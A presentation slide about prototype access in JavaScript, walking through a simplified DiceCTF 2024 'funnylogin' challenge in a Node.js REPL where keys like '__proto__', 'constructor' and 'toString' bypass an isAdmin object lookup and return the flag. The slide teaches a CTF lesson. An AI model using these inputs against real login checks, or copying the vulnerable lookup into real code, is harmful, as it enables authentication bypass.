

# Polluting prototypes: DiceCTF 2024 Quals/funnylogin
Curiously, sometimes we only need to access the prototype, and there is no need to pollute it
Extremely simplified version of DiceCTF 2024 Quals/funnylogin [1]:
Welcome to Node.js v22.0.0.
Type ".help" for more information.
> const isAdmin = {}
undefined
> function funnylogin(username) {
...   if (isAdmin[username])
...     return "flag{I_am_totally_not_hiding_my_tears_while_playing_DiceCTF}"
... }
undefined
> funnylogin("how to solve")
undefined
> funnylogin("__proto__")
flag{I_am_totally_not_hiding_my_tears_while_playing_DiceCTF}
> funnylogin("constructor")
flag{I_am_totally_not_hiding_my_tears_while_playing_DiceCTF}
> funnylogin("toString")
flag{I_am_totally_not_hiding_my_tears_while_playing_DiceCTF}
66
https://ctftime.org/writeup/38612